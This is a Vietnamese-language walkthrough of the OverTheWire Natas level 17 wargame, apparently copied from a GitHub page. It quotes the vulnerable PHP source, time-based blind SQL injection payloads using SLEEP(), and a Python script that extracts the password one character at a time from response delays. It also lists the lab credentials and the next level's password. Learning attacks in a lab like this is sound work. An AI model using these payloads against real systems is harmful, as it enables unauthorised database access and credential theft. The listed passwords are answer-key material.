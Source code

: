 # Natas Level 16

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas17.natas.labs.overthewire.org**     
**Credential: natas17:*EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas17-1.png)


1. Source code:    
```PHP
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

==>Có vẻ lại là 1 bài SQLi nữa nhưng ở đây, thông báo hiển thị ra ngoài đã bị xóa bỏ, khi mình query 1 giá trị, sẽ không có gì hiển thị ra ngoài!

==>Thử đánh giá bằng ```time-based SQL``` với lệnh ```SLEEP()```

-Ta biết được rằng db trang web sử dụng là ```MySQL``` nên ta có lệnh ```IF(condition, true_value, false_value)```

-Đầu tiên ta sẽ tìm độ dài password với payload sau: ```natas18" AND IF(LENGTH(password)>1, SLEEP(5), 0)-- a```

(Tương tự với SQLi level trước thì ở đây ta xem xem cái nào trả về hơn 5s thì chốt đó là length)    

==>Ta tìm được password có length là 32.

![alt text](Image/Natas17-2.png)

-Theo đó thì tìm password tiếp với payload này: ```natas18" AND IF(SUBSTRING(password, 1, 1)='a', SLEEP(3), 0)-- a```:     
```python
import requests
import string
import time

url = "http://natas17.natas.labs.overthewire.org/"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")

CHAR_SET = string.ascii_letters + string.digits
password = ""

for pos in range(1, 33):
    for char in CHAR_SET:
        payload = f'natas18" AND IF(BINARY SUBSTRING(password, {pos}, 1)="{char}", SLEEP(3), 0)-- a'
        start_time = time.time()
        r = requests.post(url, auth=auth, data={"username":payload})
        waste_time= time.time() - start_time
        
        if(waste_time >= 3):
            password += char
            print(f"[+] {char} is true char in {pos} of pwd")
            break
        else:
            print(f"[-] {char} isn't true char in {pos} pos")
            
print(password)
```

## 📌 Key: ```6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ```